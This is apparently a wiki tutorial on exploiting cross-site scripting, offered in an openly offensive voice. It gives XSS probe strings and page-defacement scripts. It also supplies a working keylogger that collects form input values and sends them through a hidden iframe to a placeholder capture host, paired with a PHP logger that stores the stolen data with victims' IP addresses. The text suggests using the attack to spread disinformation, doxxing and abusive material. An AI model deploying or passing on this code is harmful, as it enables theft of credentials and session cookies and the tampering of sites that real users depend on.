 Cross site scripting (or XSS) is a method of exploiting a website that does not validate user supplied input or sanitize output. Web servers that fail to do so will allow you to run arbitrary javascript on an end users browser.

## Entrypoints ##

XSS entrypoints are usually found in webforms & querystrings. You can test for the existence of xss by using the following string.
```<script>alert(document.cookie);</script>```

You also may be able to include javascript embedded in a flash object, or an image like so:
```<img src="javascript:alert(document,cookie);" />```

But this varies between browsers.
Another way is like this
```<a href="javascript:alert(document.cookie);">link</a>```

But this requires your target to click a link

## Things To Do ##


1. Hijack user sessions/cookies

  * Since user session ID and occasionally usernames/passwords are stored in cookies, you can steal cookie data to impersonate a user by either finding their uname/pass or using their server session ID.
1. Log Keystrokes

  * You can write some code in javascript to send data via ajax/iframes when a user presses a key.
1. Deface pages

  * If the xss exploit you've discovered is saved into a database and redisplayed to other users, you can deface the page by overlaying content.
Remember to always read up on the latest security news. Not long ago, someone figured how to perform an XSS attack _from a motherfucking IP phone_. How? Simple. When you start an IP phone call, your phone or software sends a caller ID. Most IP phone exchange servers log these caller IDs and let you display the call log on a web browser. The caller ID field on most IP telephony protocols (such as H.323 and SIP) is sent as text and saved into a database without validation, because people only send phone numbers on the caller ID field amirite? Well... someone wrote an IP phone program that could send Javascript code on the caller ID field, so that when the admin displayed the phone call log, the browser would run the Javascript! Once you can run Javascript on a browser, you have a platform from which you can launch all the attacks mentioned here and more.

## Sample Code ##

```//---Javascript
//Overlay a black background with LOL in big white text
html='<div style="position:absolute;top:0px;left:0px;z-index:99;width:100%;height:100%;background-color:black;"><h1 style="color:#fff;">LOLHAI</h1></div>';
document.write(html);```

```//---Javascript
//Change the content of <body>
html='<h1>LOLHAI</h1>';
window.document.body.innerHTML=html;```

```//---Javascript
//You can study the structure of a site and change the content for any element ID or tag name
html='<h1>LOLHAI</h1>';
document.getElementById('element_id').innerHTML = html;
document.getElementsByTagName('element_tag')[child].innerHTML = html;
//This is epic for trolling by inserting typos, disinformation, dox, gore, cp, etc```

```//---Javascript
//This is an example of a keylogger. There is also a php file on this article you can use to capture the data.
randVal = 'loldongs'+(Math.round((10000-5000) * Math.random() + 5000));
wp='<div style=":display:block;width:0;height:0;z-index:0;overflow:hidden;" id="'+randVal+'"></div>';
window.onload=function(){
        window.document.body.innerHTML='<div onkeyup="kl();">'+window.document.body.innerHTML+wp+'</div>';
}
function kl(){
        inp=document.getElementsByTagName('input');
        qs='';
        for(var i = 0; i < inp.length; i++){
                qs=qs+i+'_'+inp[i].name+'='+inp[i].value+'&';
        }
        cn=document.getElementById(randVal);
        kf='<iframe style="width:0;height:0;" src="http://CAPTUREHOST/capture.php?'+qs+'"></iframe>';
        cn.innerHTML=kf;
}```

```//---capture.php
//This will catch all data passed as querystrings and save them in a readable format with IP, referrer & timestamp 
<?php
        $dumpFile = "dump";
        $fh = fopen($dumpFile, 'a') or die("can't open file");
        fwrite($fh, date("m/d/y_g:i:s").'|'.$_SERVER['REMOTE_ADDR'].'|'.$_SERVER['HTTP_REFERER'].'|');
        foreach($_GET as $qs => $val){
                fwrite($fh, $qs."=".$val.'|');
        }
        fwrite($fh, "\n");
        fclose($fh);
?>```

{{tutorials}}

